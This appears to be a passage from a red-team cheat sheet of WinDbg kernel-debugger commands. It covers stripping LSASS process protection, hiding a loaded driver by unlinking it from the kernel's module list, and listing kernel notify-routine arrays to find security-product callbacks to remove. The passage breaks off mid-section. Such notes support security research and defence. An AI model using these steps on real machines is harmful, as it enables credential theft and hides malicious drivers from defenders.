 #### Check if credential guard is enabled
```
db wdigest!g_fParameter_UseLogonCredential L1
```

#### Overwrite protection level of lsass with 0
- The offset is located on the line containing: `<OFFSET> Protection :`

```
eb <EPROCESS_ADDR>+<OFFSET> 0x00
```

### Hiding loaded driver

#### List the driver object
```
!drvobj \Driver\<driverName> 7
```

#### Get driver section address
```
dt nt!_DRIVER_OBJECT <DRIVER OBJECT ADDRESS>
```

#### Get the blink and flink
```
dt nt!_LIST_ENTRY <DRIVER SECTION ADDRESS>
```

#### Change the values to driver
```
eq <BLINK> <FLINK>
eq <FLINK>+0x8 <BLINK>

eq <DRIVER SECTION ADDRESS> <DRIVER SECTION ADDRESS>
eq <DRIVER SECTION ADDRESS>+0x8 <DRIVER SECTION ADDRESS>
```

### Removing Kernel Callbacks

### Process Creation / Thread Creation / Image Loading
#### Dynamically - List the array of notify routines
- List kernel callback routine in arrays;
	- Process creation - `PspCreateProcessNotifyRoutine`
	- Thread creation - `PspCreateThreadNotifyRoutine`
	- Image loading - `PspLoadImageNotifyRoutine`
- Apply bitwise mask of `FFFFFFFFFFFFFFF8`
- Output
	- Each line is a routine registered, empty ones (`0000000000000000`) are empty

```
dqs nt!<CALLBACK ROUTINE ARRAY>
dps (<CALLBACK ADDRESS> & FFFFFFFFFFFFFFF8) L1
dps (<CALLBACK ADDRESS> & FFFFFFFFFFFFFFF8) L1
... Next next next
``` 
